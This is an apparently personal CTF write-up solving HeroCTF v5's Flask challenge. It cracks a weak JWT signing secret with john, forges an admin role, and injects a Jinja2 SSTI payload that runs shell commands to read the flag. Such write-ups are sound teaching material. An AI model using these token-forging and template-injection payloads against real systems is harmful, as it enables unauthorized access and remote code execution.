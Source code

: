 # Drink from my Flask#1

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- 87 solves / 168 points
- Difficulty: Medium
- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

A friend of yours got into an argument with a flask developer. He tried handling it himself, but he somehow got his nose broken in the process... Can you put your hacker skills to good use and help him out?  
  
You should probably be able to access the server hosting your target's last project, shouldn't you ? I heard is making a lost of programming mistakes...  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513185709.png)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513185720.png)

In here, we need to supply `op`, `n1`, `n2` GET parameters, otherwise it'll return "Invalid operation".

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513185901.png)

When we go to `/`, it'll set a new cookie called `token`, and it's a JWT (JSON Web Token).

> Note: It's highlighted in green is because of the "JSON Web Tokens" extension in Burp Suite. 

**JWT Decoded:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513190019.png)

As you can see, it's using algorithm HS256, which is HMAC + SHA256. In the payload section, **it has a `role` claim, it's currently set to `guest`.**

**Hmm... Since HS256 is a symmetric signing key algorithm, we can try to brute force the signing secret.**

**To do so, I'll use `john`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|19:06:17(HKT)]
└> john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
[...]
key              (?)     
[...]
```

**Nice!! We successfully cracked the signing secret: `key`!!**

Now, we can sign our modified JWT via [jwt.io](https://jwt.io/)!

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513191014.png)

But what value should we modify in the `role` claim?

Hmm... Don't know yet.

**Let's try to provide `op`, `n1`, `n2` GET parameters in `/`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513191526.png)

Maybe we can do command injection??

But nope, I tried.

**Then, I try to go to a non-existance page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192018.png)

And oh! We found the admin page!

**We now shouldn't able to visit the admin page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192042.png)

**Now, as the JWT signing secret was found, let's modify the `role` claim to `admin`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192146.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192212.png)

Umm... What? Just that?

**In those 404 page and `/adminPage`, it's vulnerable to reflected XSS:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192718.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192805.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192753.png)

However, those aren't useful for us... Our goal should be finding sever-side vulnerability...

**I also noticed this weird error:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513193501.png)

> "Anormaly long payload"

After poking around, I have no idea what should I do...

Ah! Wait, how do the 404 page is rendered?

**You guess, Flask is using a template engine called "Jinja2":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513211612.png)

Nice! We can try to gain Remote Code Execution (RCE) via Server-Side Template Injection (SSTI)!

## Exploitation

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#rce-escaping), we could gain RCE via the following payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513211927.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513211933.png)

Ahh... I now know why the "Anormaly long payload" exist...

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|21:20:45(HKT)]
└> curl http://dyn-04.heroctf.fr:12369/$(python3 -c "print('A' * 34)")
<h2>/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA was not found</h2><br><p>Only routes / and /adminPage are available</p>                                                                                                       ┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|21:20:47(HKT)]
└> curl http://dyn-04.heroctf.fr:12369/$(python3 -c "print('A' * 35)")
Anormaly long payload
```

As you can see, the path is limited to 34 characters.

**So... We need to craft a SSTI payload that less than 35 characters.**

**To bypass that, we can **use the `config` object instance in Flask.** This object instance stores the server's configuration:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513213012.png)

**In that object instance, it has a method called `update`, which add/update an attribute in that object instance:**
```python
config.update(key=value)
```

That being said, we can use the `update()` method to save some characters!

However, I don't wanna go that route!

**Do you still remember we have reflected XSS in `/adminPage` with the JWT's `role` claim?**

**Does it have any character limit AND vulnerable to SSTI?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220228.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220235.png)

Nice!! That `/adminPage` doesn't have any character limit!

**Let's try to gain RCE again:**
```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -lah').read() \}\}
```

> Note: Once again, the above payload is from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) 

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220657.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220703.png)

**Let's read the flag!!**
```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() \}\}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220758.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220810.png)

- **Flag: `Hero{sst1_fl4v0ur3d_c0Ok1e}`**

## Conclusion

What we've learned:

1. Cracking JWT Secret & Exploiting RCE Via SSTI